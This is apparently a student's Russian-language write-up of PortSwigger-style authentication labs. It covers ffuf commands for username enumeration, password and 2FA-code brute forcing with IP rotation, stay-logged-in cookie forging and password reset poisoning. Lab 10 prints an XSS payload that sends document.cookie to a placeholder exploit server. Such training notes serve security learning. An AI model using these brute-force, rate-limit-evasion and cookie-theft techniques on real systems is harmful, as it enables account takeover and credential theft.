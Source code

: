 # Authentication attacks

## 1. Lab: Username enumeration via different responses

бурпом угнал запрос, потом ffuf сначала подобрал юзернейм, потом пароль

asia:klaster
```
ffuf -request req.txt -request-proto https -w users.txt -fs 3140

ffuf -request req.txt -request-proto https -w pass.txt -fc 200
```

## 2. Lab: 2FA simple bypass

Просто вместо того, чтобы вводить 2fa перейти на /my-account.

## 3. Lab: Password reset broken logic

В форме отправки сброса пароля явно указывается ник того, кому пароль скинуть. Указываем там carlos и гг

## 4. Lab: Username enumeration via subtly different responses

Долго повозившись с регексами, сделал такой запрос в ffuf

```
ffuf -request req.txt -request-proto https -w users.txt -fr 'Invalid username or password\.'
```

Далее пароль (уже попроще)

azureuser:cheese

```
ffuf -request req.txt -request-proto https -w pass.txt -c
```


## 5. Lab: Username enumeration via response timing

Так как надо ротировать айпишник, чтоб не заблочиться, сгенерил список из 101 айпишника и засунул его питчфорком в ffuf.
Теперь для каждого юзернейма будет новый айпишник. Чем не хайп.

```
ffuf -request req.txt -request-proto https \
  -w users.txt:FUZZ -w ips_101.txt:IPFUZZ \
  -mode pitchfork -c  -ft '<150'
```

На никнейме `au` таймаутнулся, так что буду считать, что он мне и нужен (в пароль я вбивал 3000 символов)

Правильно введенный пароль стандартно редиректит, нашел его таким запросом

au:12345678

```
ffuf -request req.txt -request-proto https \
  -w pass.txt:FUZZ -w ips_101.txt:IPFUZZ \
  -mode pitchfork -c -fr 'You have made too many incorrect login attempts'
```

## 6. Lab: Broken brute-force protection, IP block

Так как механизм таков, что раз в несколько раз надо опять входить - опять сделал pitchfork,
только на этот раз просто сделал каждый второй юзер пасс - wiener:peter, и в выводе искал просто 
три синих подряд

![2025-10-22-at-14-59-23.png](Nikolaev_mikhail_pr5-img/2025-10-22-at-14-59-23.png)

```
ffuf -request req.txt -request-proto https \
  -w carlos_wiener_200.txt:USERFUZZ -w pass_brute.txt:PASSFUZZ \
  -mode pitchfork -t 1 -c
```

## 7. Lab: Username enumeration via account lock

Заметил, что на несуществующие юзернеймы нет блока по количеству попыток входа. Победа??

```
ffuf -request req.txt -request-proto https \
  -w users.txt:USERFUZZ -w empty.txt:PASSFUZZ \
  -mode clusterbomb -c -fs 3132
```

В empty 10 рандомных строк, так что каждый юзернейм 10 раз повторился. Фильтруя по обычному размеру ответа
я нашел, что в случае с юзернеймом argentina размер больше, а в сообщении находится `You have made too many incorrect login attempts`

Теперь перебираю пароли. Сделал фильтр на ошибку по таймауту и после нескольких прогонов заметил, что только один пароль каждый раз возвращается.

argentina:starwars

```
ffuf -request req.txt -request-proto https \
  -w pass.txt \
  -c -fr 'You have made too many incorrect login'
```

## 8. Lab: 2FA broken logic

Заметил, что в ручке GET /login2 в куки можно поставить ник. Таким образом я туда вставил ник carlos и загенерил ему 2FA

Далее со своего акка взял request, поменял на carlos ник, забрутил его ffuf

```
ffuf -request req.txt -request-proto https \
  -w ~/red/SecLists/Fuzzing/4-digits-0000-9999.txt \
  -c -fc 200
```

## 9. Lab: Brute-forcing a stay-logged-in cookie

Тут прикол в том, что в куки есть поле stay-logged-in, которое в формате base64(username:md5(password)).

Потому я написал bash скрипт, который создал мне вордлист для этого поля (change.sh) на основе имеющегося вордлиста пароля и юзера carlos.

Далее я добавил флаг -r в ffuf для того, чтобы следовать редиректам, и догадался отрубить куки "session" потому что оно мешало. Итого получил такой запрос

```
➜ ffuf -request req.txt -request-proto https \
  -w payloads.txt \
  -c -r -mr "Update email"
```

## 10. Lab: Offline password cracking

Тут как будто задача больше на скрафтить xss (я не смог). xss обращается по ручке server/cookie и мы забираем эту куки. потом кракаем хэш.

```xxs
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

carlos:26323c16d5f4dabff3bb136f2460a943

При помощи crackstation.net поломал пароль. onceuponatime

## 11. Lab: Password reset poisoning via middleware

Тут нужно было догадаться использовать header X-Forwarded-Host. Который перенаправляет на наш сайт, откуда мы и берем токен на ресет пароля.
